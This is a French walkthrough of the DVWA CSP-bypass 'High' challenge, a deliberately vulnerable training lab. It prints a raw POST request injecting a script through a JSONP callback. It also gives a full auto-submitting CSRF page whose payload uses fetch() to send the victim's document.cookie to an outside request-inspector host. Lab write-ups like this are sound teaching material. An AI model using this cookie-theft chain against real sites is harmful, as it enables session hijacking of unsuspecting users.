










# Niveau "High"

Le niveau "High" permet de résoudre une opération mathématique grâce à un appel JSONP :



La méthode de callback se nomme `solveSum()` :



Et la réponse permet de résoudre l'opération :



Dans un premier temps, j'ai intercepté la requête du callback afin d'y injecter un bout de JS :



Cela semble fonctionner :



Le problème est qu'il n'est pas possible de soumettre notre payload à la victime car le `Content-Type` de la réponse est de type `application/json` et donc non exploitable en l'état :





Etant bloqué mais voulant aller plus loin, je suis allé voir ce que d'autres personnes avaient réussi à faire. Je suis tombé sur ce [writeup](http://halazi.xin/2019/01/09/DVWA-CSP-BYPASS/) qui suit la démarche suivante :

* Analyser les sources du challenge permet d'identifier un endpoint de type **`POST`** autorisant d'inclure une donnée dans le page csp :



La requête suivante devient donc possible :

```
POST /vulnerabilities/csp/ HTTP/1.1
Host: 192.168.56.203:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.56.203:8080/security.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=b4rgbmn3q7l71tide90m809bj3; security=high
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 71

include=<script src="source/jsonp.php?callback=alert(1);"></script>
```


Attention à ne pas oublier le Content-Type pour la requête POST


Et en effet, le script est bien exécuté :



Le problème ici est que pour connaitre ce endpoint en **`POST`** il fallait regarder les sources (ou le deviner). En général je préfère ne regarder les sources qu'après avoir terminé le challenge.

Bien que l'auteur du writeup n'indique pas comment, il faut maintenant trouver un vecteur d'attaque contre la victime. J'utilise à nouveau l'exploitation de la faille CSRF, présente également sur ce niveau, en hébergeant le script malicieux suivant sur mon serveur :

```markup
<html>
    <head>
        <title>Exploitation POST XSS</title>
    </head>

    <body>
        <p>Coucou !</p>
        <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
            <input type="text" name="include" value="<script src=&quot;source/jsonp.php?callback=fetch('https://requestinspector.com/inspect/01dt9afwk20cb3xj8f1dwfdj6b?cookie='%2Bdocument.cookie);&quot;></script>">
            <button type="submit">Envoyer le message</button>
        </form>

        <script>
            document.forms['postExploitXSS'].submit();
        </script>
    </body>
</html>
```


Attention à l'encodage de certains caractères spéciaux au niveau de la valeur à envoyer


Lorsque la victime (authentifiée) visite ma page malicieuse, je subtilise son jeton de session :


